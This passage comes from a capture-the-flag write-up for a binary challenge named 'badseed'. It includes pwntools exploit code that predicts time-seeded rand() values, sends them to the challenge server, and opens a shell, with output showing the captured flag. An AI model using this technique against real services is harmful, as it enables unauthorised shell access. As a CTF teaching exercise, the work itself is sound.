 ```c
}
```

After this function ends, the program calls the `gz` function that gives a shell:

```c
void gz(void)

{
  system("/bin/sh");
  return;
}
```

The `question_three` function does the following:
1. Seeds the random number generator with `time(NULL)`.
1. Generates a random number, and then seeds the RNG with that value.
1. Generates a second random number.
1. Calculates the first random number divided by the second. Then checks that our answer equals the remainder of dividing that value by 1000.

We can accomplish that with some code similar to our answer to question 2:

```python
# Question 3
libc.srand(libc.time(None))
number1 = libc.rand()
libc.srand(number1)
number2 = libc.rand()
result = (number1 // number2) % 1000
io.sendline(str(result).encode())

io.interactive()
```

Now, we can run the full script on the remote server, and obtain a shell!

```sh
 ./exploit.py REMOTE 
[*] Switching to interactive mode
great heres your shell
$ ls
flag.txt
run
$ cat flag.txt
flag{i_0_w1th_pwn70ols_i5_3a5y}
```

Flag captured! This took a couple tries since the latency of the request can lead to us sending obsolete random number values.

## Solution Script

```python
#!/usr/bin/env python3

from pwn import *
import ctypes

libc = ctypes.CDLL('/lib/x86_64-linux-gnu/libm.so.6')
binary = context.binary = ELF('./badseed')

if args.REMOTE:
    io = remote('ctf.k3rn3l4rmy.com', 2200)
else:
    io = process(binary.path)

# Question 1
```